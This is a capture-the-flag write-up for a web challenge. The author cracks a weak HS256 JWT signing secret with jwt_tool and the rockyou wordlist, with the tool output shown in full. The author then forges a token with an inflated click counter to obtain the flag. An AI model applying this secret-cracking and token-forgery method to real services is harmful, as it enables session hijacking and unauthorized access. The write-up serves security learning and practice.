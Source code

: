 # Cookie Clicker

### Challenge
```
Cookie Clicker
25
Cookies are yummy, Can you help me rock this cookie ?

http://ctf.kaf.sh:3020
```

### Recon, Explore and Hits

* Assumption as per the challenge we need to do something with the cookie

* Trying to use this challenge, signing in with `username` we see the `JWT` logo which is obvious. This is also evident in burpsuite request capture.

* General functionality is as follows,
  - Sign in with a username
  - returned a jwt token
  - next page has 1000000 clicks to be made until you get the flag. There is a counter
  - Bruteforcing clicks would be one thing but....
  - When I was performing recon of the JWT tokens I saw that the tokens expire within few seconds. So we need a faster and more efficient approach

* Using `jwt.io` to decode/debug/re-encode the JWT tokens.

* First look using jwt.io gives the token with a counter on it. We could just find a way in editing this to the respective value to fulfil the counters and get the flag.

* JWT.io also helps in identifying that the JWT token is of type `HS256` and signed with `256 bit secret key` --> which is a password we need to crack

* Referring to the GITHUB --> JWT PAYLODS WIKI --> `https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token#jwt-cracker`

* Using the tool to crack the secret key for the jwt token using rockyou dictionary.
```
root@kali:~/jwt_tool# python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiY2xpY2tDb3VudGVyIjowLCJpYXQiOjE1NzcyNjM5OTMsImV4cCI6MTU3NzI2NDAyM30.iu_7TpRZL_EU_ZPtNSNjnBNcIUc39ikkV2NtFaPYpX0

   $$$$$\ $$\      $$\ $$$$$$$$\  $$$$$$$$\                  $$\ 
   \__$$ |$$ | $\  $$ |\__$$  __| \__$$  __|                 $$ |
      $$ |$$ |$$$\ $$ |   $$ |       $$ | $$$$$$\   $$$$$$\  $$ |
      $$ |$$ $$ $$\$$ |   $$ |       $$ |$$  __$$\ $$  __$$\ $$ |
$$\   $$ |$$$$  _$$$$ |   $$ |       $$ |$$ /  $$ |$$ /  $$ |$$ |
$$ |  $$ |$$$  / \$$$ |   $$ |       $$ |$$ |  $$ |$$ |  $$ |$$ |
\$$$$$$  |$$  /   \$$ |   $$ |       $$ |\$$$$$$  |\$$$$$$  |$$ |
 \______/ \__/     \__|   \__|$$$$$$\__| \______/  \______/ \__|
 Version 1.3.2                \______|                           


=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = HS256
[+] typ = JWT

Token payload values:
[+] username = admin
[+] clickCounter = 0
[+] iat = 1577263993    ==> TIMESTAMP = 2019-12-25 00:53:13 (UTC)
[+] exp = 1577264023    ==> TIMESTAMP = 2019-12-25 00:53:43 (UTC)

Seen timestamps:
[*] iat was seen
[+] exp is later than iat by: 0 days, 0 hours, 0 mins
[-] TOKEN IS EXPIRED!

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


########################################################
#  Options:                                            #
#                ==== TAMPERING ====                   #
#  1: Tamper with JWT data (multiple signing options)  #
#                                                      #
#             ==== VULNERABILITIES ====                #
#  2: Check for the "none" algorithm vulnerability     #
#  3: Check for HS/RSA key confusion vulnerability     #
#  4: Check for JWKS key injection vulnerability       #
#                                                      #
#            ==== CRACKING/GUESSING ====               #
#  5: Check HS signature against a key (password)      #
#  6: Check HS signature against key file              #
#  7: Crack signature with supplied dictionary file    #
#                                                      #
#            ==== RSA KEY FUNCTIONS ====               #
#  8: Verify RSA signature against a Public Key        #
#                                                      #
#  0: Quit                                             #
########################################################

Please make a selection (1-6)
> 7
Please provide filename for dictionary file.

> /usr/share/wordlists/rockyou.txt

Loading key dictionary...
File loaded: /usr/share/wordlists/rockyou.txt
Testing passwords in dictionary...
[*] Tested 1 million passwords so far

[+] mypinkipod is the CORRECT key!
```

* Yay! we got the secret. Lets test this secret with a new token/new user to ensure this secret is going to be the same. Else we need to automate this process...

* Seems to be a static secret. Super!

```
root@kali:~/jwt_tool# python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkFBQUEiLCJjbGlja0NvdW50ZXIiOjAsImlhdCI6MTU3NzI2NDY2OCwiZXhwIjoxNTc3MjY0Njk4fQ.WCnD6AhEldOB6LycKPSYVXKkQSakCH0Wuy-FClxllBk

   $$$$$\ $$\      $$\ $$$$$$$$\  $$$$$$$$\                  $$\ 
   \__$$ |$$ | $\  $$ |\__$$  __| \__$$  __|                 $$ |
      $$ |$$ |$$$\ $$ |   $$ |       $$ | $$$$$$\   $$$$$$\  $$ |
      $$ |$$ $$ $$\$$ |   $$ |       $$ |$$  __$$\ $$  __$$\ $$ |
$$\   $$ |$$$$  _$$$$ |   $$ |       $$ |$$ /  $$ |$$ /  $$ |$$ |
$$ |  $$ |$$$  / \$$$ |   $$ |       $$ |$$ |  $$ |$$ |  $$ |$$ |
\$$$$$$  |$$  /   \$$ |   $$ |       $$ |\$$$$$$  |\$$$$$$  |$$ |
 \______/ \__/     \__|   \__|$$$$$$\__| \______/  \______/ \__|
 Version 1.3.2                \______|                           


=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = HS256
[+] typ = JWT

Token payload values:
[+] username = AAAA
[+] clickCounter = 0
[+] iat = 1577264668    ==> TIMESTAMP = 2019-12-25 01:04:28 (UTC)
[+] exp = 1577264698    ==> TIMESTAMP = 2019-12-25 01:04:58 (UTC)

Seen timestamps:
[*] iat was seen
[+] exp is later than iat by: 0 days, 0 hours, 0 mins
[-] TOKEN IS EXPIRED!

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


########################################################
#  Options:                                            #
#                ==== TAMPERING ====                   #
#  1: Tamper with JWT data (multiple signing options)  #
#                                                      #
#             ==== VULNERABILITIES ====                #
#  2: Check for the "none" algorithm vulnerability     #
#  3: Check for HS/RSA key confusion vulnerability     #
#  4: Check for JWKS key injection vulnerability       #
#                                                      #
#            ==== CRACKING/GUESSING ====               #
#  5: Check HS signature against a key (password)      #
#  6: Check HS signature against key file              #
#  7: Crack signature with supplied dictionary file    #
#                                                      #
#            ==== RSA KEY FUNCTIONS ====               #
#  8: Verify RSA signature against a Public Key        #
#                                                      #
#  0: Quit                                             #
########################################################

Please make a selection (1-6)
> 5
Type in the key to test
> mypinkipod

[+] mypinkipod is the CORRECT key!
```

* Ok, now we use this `secret` + `jwt.io` + `create new user and get token` + `alter the counter value to 999999` --> Use the generated token on the request. 

* We get the FLAG!.